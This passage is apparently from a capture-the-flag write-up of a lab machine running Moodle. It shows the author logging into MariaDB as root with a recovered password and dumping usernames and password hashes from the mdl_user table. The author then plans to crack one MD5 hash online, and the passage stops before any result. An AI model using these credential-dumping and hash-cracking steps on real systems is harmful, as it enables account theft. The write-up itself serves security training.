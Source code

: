 

### Connect to DB

I can use that password to connect to the database and explore. In the
user table, there's one entry that stands out:



    www-data@teacher:/var/www.md/moodle$ mysql -u root -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 709
    Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

    Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | moodle             |
    | mysql              |
    | performance_schema |
    | phpmyadmin         |
    +--------------------+
    5 rows in set (0.00 sec)

    MariaDB [(none)]> use moodle
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    MariaDB [moodle]> select username,password from mdl_user;
    +-------------+--------------------------------------------------------------+
    | username    | password                                                     |
    +-------------+--------------------------------------------------------------+
    | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
    | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
    | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
    | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
    +-------------+--------------------------------------------------------------+



While the first three passwords look like blowfish, the last one,
Giovannibak is an md5 hash. I can drop it into
[crackstation](https://crackstation.net/) and get the password:
